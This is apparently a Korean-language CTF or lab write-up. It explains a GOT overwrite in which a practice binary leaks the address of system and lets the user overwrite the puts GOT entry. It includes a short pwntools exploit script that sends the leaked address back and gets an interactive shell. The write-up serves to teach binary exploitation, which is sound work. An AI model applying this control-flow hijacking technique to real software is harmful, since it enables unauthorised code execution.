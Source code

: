 주어진 코드는 먼저 system 함수의 주소를 leak 해주고, 입력받은 값을 puts_got 변수 안에 있는 주소에 넣어주는 역할을 하고 있다.

puts_got 자체가 got 테이블에 저장된 값을 변경하는 것이기 때문에, 우리는 마지막 줄에서 puts가 호출되는 시점에 엉뚱한 system 함수가 호출되도록 puts_got 변수에 system 함수의 주소를 넣어줘야 한다.

또한 사용자에게 값을 받는 시점에 `%lx` 포맷 스트링을 사용하기 때문에 기본으로 8 바이트 값을 받는다고 생각하고 있어 패딩 걱정은 하지 않아도 좋을 것이다.

<br><br>

# 2. 익스플로잇 설계

앞서 분석했던 점을 감안하면 익스플로잇이 해야 할 일은 다음과 같다.

- 먼저 프로그램이 출력하는 시스템 함수의 주소를 받아 저장한다.
- 저장했던 시스템 함수의 주소를 스트링 형식으로 입력한다. 애초에 포맷 스트링이 `%lx` 이므로 스트링으로 입력해 줘야 컴파일러가 알아서 hex 값으로 인식할 것이다.

<br><br>

# 3. 익스플로잇

익스플로잇 코드는 아래와 같다.

```python
from pwn import *

p = process("./got_overwrite")

p.recvuntil("0x")

libc_system = int(p.recvline(), 16)
payload = hex(libc_system&0x0000ffffffff)

# gdb.attach(p)
# raw_input("1")

p.sendline(str(payload))
p.interactive()
```

앞서 이야기한 것과 같이, plt의 주소는 고정되어 있기 때문에 ASLR을 켜도, ASLR을 꺼도 동일하게 익스플로잇에 성공할 수 있다.

익스플로잇을 실행한 결과 아래와 같이 쉘을 딸 수 있었다.

![Untitled](/assets/img/posts/pltgot/Untitled%204.jpeg){: width="100%" height="100%"}